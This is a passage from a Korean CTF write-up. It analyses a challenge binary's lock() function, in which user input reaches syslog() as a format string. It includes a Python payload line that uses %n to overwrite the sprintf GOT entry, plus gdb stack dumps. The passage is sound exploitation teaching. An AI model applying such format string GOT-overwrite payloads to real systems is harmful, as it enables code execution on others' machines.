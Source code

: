대신 다른 공격이 가능한데, `password`의 마지막 1바이트를 남겨놓고 `buf`와 같은 값으로 덮으면 1바이트씩 brute forcing이 가능하다.
### FSB in syslog
``` c
int lock_8048877()
{
  printf("Input master key > ");
  read(0, fmt_0804A0C0, 20u);
  if ( memcmp(password_804A0A4, fmt_0804A0C0, 16u) )
    return -1;
  sprintf(fmt_0804A0C0, "./lock LOCK %d %d", floor_804A4C0, room_804A0A0);
  system(fmt_0804A0C0);
  printf("Your name > ");
  read(0, name_804A2C0, 0x190u);
  sprintf(fmt_0804A0C0, "LOCK %d-%d by %s", floor_804A4C0, room_804A0A0, name_804A2C0);
  syslog(13, fmt_0804A0C0);
  return 0;
}
```
`password` leak에 성공하면 `lock()`과 `unlock()`의 기능을 사용할 수 있다.

이 중에서 `syslog()`에 대해서 자세하게 살펴보면,
``` c
void syslog(int priority, const char *format, ...);
```
두 번째 인자 `format`은 format string으로, [Linux manual page](https://man7.org/linux/man-pages/man3/syslog.3.html)에서도 관련 내용을 확인할 수 있다.

> Never pass a string with user-supplied data as a format, use the following instead:
> 
> syslog(priority, "%s", string);

그런데 `lock()`에서는 `syslog(13, fmt_0804A0C0);` 형식으로 사용하고 있기 때문에 `fmt_0804A0C0`에 format string을 넣어주면 FSB가 발생한다.

다행히 `name_804A2C0`를 통해 `fmt_0804A0C0`에 format string을 전달할 수 있으므로, 취약점을 활용할 수 있다.

## 0x02. Exploit
평소처럼 FSB를 활용하려면 payload를 `%p %p %p %p ...` 이런 식으로 구성해서 몇 번째 format string부터 `$esp`가 가리키는 부분인지 확인했을텐데, `syslog()`는 `/var/log/syslog`에 로그를 남길 뿐이라서 결과를 확인할 수가 없었다.

결국 `%?$n`에서 `?`값을 늘려가며 언제 어디에 값이 써지는지 매뉴얼 확인을 했다.

그 결과 `$esp`에서 n번째 메모리는 `%(n + 2)$n`으로 접근할 수있다는 것을 확인했다.

또한 우리가 입력한 format string만 출력되는 것이 아니라 `"LOCK %d-%d by %s"` 문자열의 `%s` 부분에 format string이 들어가므로 12바이트만큼 값이 더 써진다.

따라서 다음과 같이 payload를 작성했다.
``` python
    # %n$ -> pointing (n + 2)th dword from esp
    value = elf.got['sprintf']
    index = 26
    lock(s, key, f"%{value - 0xc}c%{index - 2}$n".encode())
```
이제 exploit을 위해 `syslog()`를 호출할 때의 stack을 보면 다음과 같다.
``` bash
gef➤  x/20wx $esp
0xffffdcc0:     0x0000000d      0x0804a0c0      0x00000001      0x00000002
0xffffdcd0:     0x0804a2c0      0x08048cb1      0xf7e760d9      0xf7fcd000
0xffffdce0:     0x00000000      0x00000000      0xffffdd18      0x0804883a
0xffffdcf0:     0x08048c9f      0xffffdd08      0x00000002      0x00000000
0xffffdd00:     0xf7fcd3c4      0xf7ffd000      0x00000001      0xf7fcd000
gef➤  x/20wx $esp + 0x50
0xffffdd10:     0x08048b90      0x00000000      0x00000000      0xf7e39af3
0xffffdd20:     0x00000001      0xffffddb4      0xffffddbc      0xf7feae6a
0xffffdd30:     0x00000001      0xffffddb4      0xffffdd54      0x0804a02c
0xffffdd40:     0x08048328      0xf7fcd000      0x00000000      0x00000000
```